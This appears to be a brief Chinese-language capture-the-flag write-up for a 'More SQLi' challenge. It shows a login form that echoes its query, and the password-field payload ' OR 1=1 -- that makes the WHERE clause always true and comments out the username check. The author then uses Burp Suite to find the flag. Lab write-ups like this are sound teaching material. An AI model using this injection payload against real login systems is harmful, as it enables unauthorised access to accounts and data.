 # More SQLi

* 帳號密碼先出輸入admin
* 隨後出現
  
```html
username: admin
password: admin
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
```

* 之後在帳號打admin密碼'OR 1=1 -- 使SQL語言變成

```sql
SELECT id FROM users WHERE password = ''OR 1=1 -- AND username = 'admin'
```

-- 是註解將AND username = 'admin'為註解

* 用Burp Suite追蹤後即可找到flag